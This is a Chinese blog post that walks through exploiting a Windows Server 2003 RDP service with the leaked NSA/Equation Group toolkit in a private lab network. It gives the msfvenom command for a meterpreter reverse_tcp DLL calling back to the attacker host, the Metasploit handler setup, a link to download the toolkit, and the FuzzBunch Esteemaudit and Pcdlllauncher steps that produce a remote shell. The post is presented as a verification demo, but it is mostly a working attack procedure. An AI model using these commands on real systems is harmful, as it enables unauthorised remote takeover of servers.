 ```yaml
---
title: NSA工具包验证之RDP漏洞利用
date: 2017-06-15 21:32:39
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.4)：开放了3389端口的Windows Server 2003

以上所有IP之间均可以直接访问
### 验证步骤：
<!--more-->
#### 第一步：生成可执行的恶意dll文件
0x01
首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：
![1.jpg](post162/1.jpg)
0x02
执行命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```
在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell
0x03
点击xshell如图位置
![3.jpg](post162/3.jpg)
打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图
![4.jpg](post162/4.jpg)

#### 第二步：配置kali使得kali处于监听状态
0x01
依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功
![2.jpg](post162/2.jpg)
这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击
0x01
将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错
![5.jpg](post162/5.jpg)
0x02
打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图
![1.jpg](post162/1-16273800337215.jpg)
最后敲击回车
0x03
显示出`fb >`之后输入命令
```
use Esteemaudit
```
使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可
（设置监听还是连接、系统位数、系统版本）
![2.jpg](post162/2-16273801063656.jpg)
（回拨IP以及端口，端口号可以任意设置）
![3.jpg](post162/3-16273801178697.jpg)
（配置DLL路径，需要改为实际路径）
![4.jpg](post162/4-16273801287108.jpg)
之后几个回车即可看到连接成功，如图
![5.jpg](post162/5-16273801405719.jpg)
0x04
接着输入命令
```
use Pcdlllauncher
```
使用Pcdlllauncher，除了下图其他保持默认即可
（改为自己的实际路径）
![6.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/6.jpg "6.jpg")
（之前生成的s.dll路径）
![7.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/7.jpg "7.jpg")
之后不断回车，会看到如图
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/10.jpg "10.jpg")
不用理他，打开xshell可以看到已经成功反弹shell，如下图
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/8.jpg "8.jpg")
然后就可以比如说输入shell模拟终端执行命令了
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/9.jpg "9.jpg")